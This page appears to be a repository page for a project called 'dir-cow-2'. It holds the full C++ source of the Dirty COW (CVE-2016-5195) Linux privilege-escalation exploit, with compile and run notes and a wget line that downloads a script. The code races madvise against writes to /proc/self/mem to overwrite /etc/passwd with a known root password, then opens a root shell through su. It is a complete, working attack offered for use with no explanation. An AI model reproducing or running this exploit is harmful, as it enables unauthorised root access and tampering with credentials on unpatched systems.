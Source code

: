 
wget https://raw.githubusercontent.com/Yinyayoli/dir-cow-2/master/linux-exploit-suggester.sh -O dcow.sh

# dir-cow-2
// EDB-Note: Compile:   g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
// EDB-Note: Recommended way to run:   ./dcow -s    (Will automatically do "echo 0 > /proc/sys/vm/dirty_writeback_centisecs")
//
// -----------------------------------------------------------------
// Copyright (C) 2016  Gabriele Bonacini
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License as published by
// the Free Software Foundation; either version 3 of the License, or
// (at your option) any later version.
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
// You should have received a copy of the GNU General Public License
// along with this program; if not, write to the Free Software Foundation,
// Inc., 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301  USA
// -----------------------------------------------------------------

#include <iostream>
#include <fstream>
#include <string>
#include <thread>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>
#include <pwd.h>
#include <pty.h>
#include <string.h>
#include <termios.h>
#include <sys/wait.h>
#include <signal.h>

#define  BUFFSIZE    1024
#define  PWDFILE     "/etc/passwd"
#define  BAKFILE     "./.ssh_bak"
#define  TMPBAKFILE  "/tmp/.ssh_bak"
#define  PSM         "/proc/self/mem"
#define  ROOTID      "root:"
#define  SSHDID      "sshd:"
#define  MAXITER     300
#define  DEFPWD      "$6$P7xBAooQEZX/ham$9L7U0KJoihNgQakyfOQokDgQWLSTFZGB9LUU7T0W2kH1rtJXTzt9mG4qOoz9Njt.tIklLtLosiaeCBsZm8hND/"
#define  TXTPWD      "dirtyCowFun\n"
#define  DISABLEWB   "echo 0 > /proc/sys/vm/dirty_writeback_centisecs\n"
#define  EXITCMD     "exit\n"
#define  CPCMD       "cp "
#define  RMCMD       "rm "

using namespace std;

class Dcow{
    private:
       bool              run,        rawMode,     opShell,   restPwd;
       void              *map;
       int               fd,         iter,        master,    wstat;
       string            buffer,     etcPwd,      etcPwdBak,
                         root,       user,        pwd,       sshd;
       thread            *writerThr, *madviseThr, *checkerThr;
       ifstream          *extPwd;
       ofstream          *extPwdBak;
       struct passwd     *userId;
       pid_t             child;  
       char              buffv[BUFFSIZE];
       fd_set            rfds;
       struct termios    termOld,    termNew;
       ssize_t           ign;

       void exitOnError(string msg);
    public:
       Dcow(bool opSh, bool rstPwd);
       ~Dcow(void);
       int  expl(void);         
};

Dcow::Dcow(bool opSh, bool rstPwd) : run(true), rawMode(false), opShell(opSh), restPwd(rstPwd),
                   iter(0), wstat(0), root(ROOTID), pwd(DEFPWD), sshd(SSHDID), writerThr(nullptr),
                   madviseThr(nullptr), checkerThr(nullptr), extPwd(nullptr), extPwdBak(nullptr), 
                   child(0){ 
   userId = getpwuid(getuid());
   user.append(userId->pw_name).append(":");
   extPwd = new ifstream(PWDFILE);   
   while (getline(*extPwd, buffer)){
       buffer.append("\n");
       etcPwdBak.append(buffer);
       if(buffer.find(root) == 0){
          etcPwd.insert(0, root).insert(root.size(), pwd);
          etcPwd.insert(etcPwd.begin() + root.size() + pwd.size(), 
                        buffer.begin() + buffer.find(":", root.size()), buffer.end());
       }else if(buffer.find(user) == 0 ||  buffer.find(sshd) == 0 ){
          etcPwd.insert(0, buffer);
       }else{
          etcPwd.append(buffer);
       }
   }
   extPwdBak = new ofstream(restPwd ? TMPBAKFILE : BAKFILE);
   extPwdBak->write(etcPwdBak.c_str(), etcPwdBak.size());
   extPwdBak->close();
   fd = open(PWDFILE,O_RDONLY);
   map = mmap(nullptr, etcPwdBak.size(), PROT_READ,MAP_PRIVATE, fd, 0);
}

Dcow::~Dcow(void){
   extPwd->close();
   close(fd);
   delete extPwd; delete extPwdBak; delete madviseThr; delete writerThr; delete checkerThr;
   if(rawMode)    tcsetattr(STDIN_FILENO, TCSANOW, &termOld);
   if(child != 0) wait(&wstat); 
}

void Dcow::exitOnError(string msg){
      cerr << msg << endl;
      // if(child != 0) kill(child, SIGKILL);
      throw new exception();
}

int  Dcow::expl(void){
   madviseThr = new thread([&](){ while(run){ madvise(map, etcPwdBak.size(), MADV_DONTNEED);} });
   writerThr  = new thread([&](){ int fpsm = open(PSM,O_RDWR);  
                                  while(run){ lseek(fpsm, reinterpret_cast<off_t>(map), SEEK_SET); 
                                              ign = write(fpsm, etcPwd.c_str(), etcPwdBak.size()); }
                                });
   checkerThr = new thread([&](){ while(iter <= MAXITER){ 
                                         extPwd->clear(); extPwd->seekg(0, ios::beg); 
                                         buffer.assign(istreambuf_iterator<char>(*extPwd),
                                                       istreambuf_iterator<char>());
                                         if(buffer.find(pwd) != string::npos && 
                                            buffer.size() >= etcPwdBak.size()){
                                                run = false; break;
                                         }
                                         iter ++; usleep(300000);
                                   }
                                   run = false;
                                 });

  cerr << "Running ..." << endl;
  madviseThr->join();
  writerThr->join();
  checkerThr->join();

  if(iter <= MAXITER){ 
       child = forkpty(&master, nullptr, nullptr, nullptr);

       if(child == -1) exitOnError("Error forking pty.");

       if(child == 0){ 
          execlp("su", "su", "-", nullptr);
          exitOnError("Error on exec.");
       }

       if(opShell) cerr << "Password overridden to: " <<  TXTPWD << endl;
       memset(buffv, 0, BUFFSIZE);
       ssize_t bytes_read = read(master, buffv, BUFFSIZE - 1);
       if(bytes_read <= 0) exitOnError("Error reading  su prompt.");
       cerr << "Received su prompt (" << buffv << ")" << endl; 

       if(write(master, TXTPWD, strlen(TXTPWD)) <= 0) 
            exitOnError("Error writing pwd on tty.");

       if(write(master, DISABLEWB, strlen(DISABLEWB)) <= 0) 
            exitOnError("Error writing cmd on tty.");

       if(!opShell){
            if(write(master, EXITCMD, strlen(EXITCMD)) <= 0) 
                 exitOnError("Error writing exit cmd on tty.");
       }else{
           if(restPwd){
               string restoreCmd = string(CPCMD).append(TMPBAKFILE).append(" ").append(PWDFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd on tty.");
               restoreCmd        = string(RMCMD).append(TMPBAKFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd (rm) on tty.");
           }

           if(tcgetattr(STDIN_FILENO, &termOld) == -1 )
                exitOnError("Error getting terminal attributes.");
    
           termNew               = termOld;
           termNew.c_lflag       &= static_cast<unsigned long>(~(ICANON | ECHO));
    
           if(tcsetattr(STDIN_FILENO, TCSANOW, &termNew) == -1)
                exitOnError("Error setting terminal in non-canonical mode.");
           rawMode = true;
    
           while(true){
                FD_ZERO(&rfds);
                FD_SET(master, &rfds);
                FD_SET(STDIN_FILENO, &rfds);
    
                if(select(master + 1, &rfds, nullptr, nullptr, nullptr) < 0 )
                    exitOnError("Error on select tty.");
    
                if(FD_ISSET(master, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(master, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) break;
                    if(write(STDOUT_FILENO, buffv, bytes_read) != bytes_read)
                          exitOnError("Error writing on stdout.");
                }
    
                if(FD_ISSET(STDIN_FILENO, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(STDIN_FILENO, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) exitOnError("Error reading from stdin.");
                    if(write(master, buffv, bytes_read) != bytes_read) break;
                }
            }
      }
  }
 
  return [](int ret, bool shell){ 
       string msg = shell ? "Exit.\n" : string("Root password is:   ") + TXTPWD + "Enjoy! :-)\n";
       if(ret <= MAXITER){cerr << msg; return 0;}
       else{cerr << "Exploit failed.\n"; return 1;} 
  }(iter, opShell);
}

void printInfo(char* cmd){
      cerr << cmd << " [-s] [-n] | [-h]\n" << endl;
      cerr << " -s  open directly a shell, if the exploit is successful;" << endl;
      cerr << " -n  combined with -s, doesn't restore the passwd file." << endl;
      cerr << " -h  print this synopsis;" << endl;
      cerr << "\n If no param is specified, the program modifies the passwd file and exits." << endl;
      cerr << " A copy of the passwd file will be create in the current directory as .ssh_bak" << endl;
      cerr << " (unprivileged user), if no parameter or -n is specified.\n" << endl;
      exit(1);
}

int main(int argc, char** argv){
   const char  flags[]   = "shn";
   int         c;
   bool        opShell   = false,
               restPwd   = true;

   opterr = 0;
   while ((c = getopt(argc, argv, flags)) != -1){
      switch (c){
         case 's':
            opShell = true;
         break;
         case 'n':
            restPwd = false;
         break;
         case 'h':
            printInfo(argv[0]);
         break;
         default:
            cerr << "Invalid parameter." << endl << endl;
            printInfo(argv[0]);
      }
   }

   if(!restPwd && !opShell){
            cerr << "Invalid parameter: -n requires -s" << endl << endl;
            printInfo(argv[0]);
   }

   Dcow dcow(opShell, restPwd);
   return dcow.expl();
}

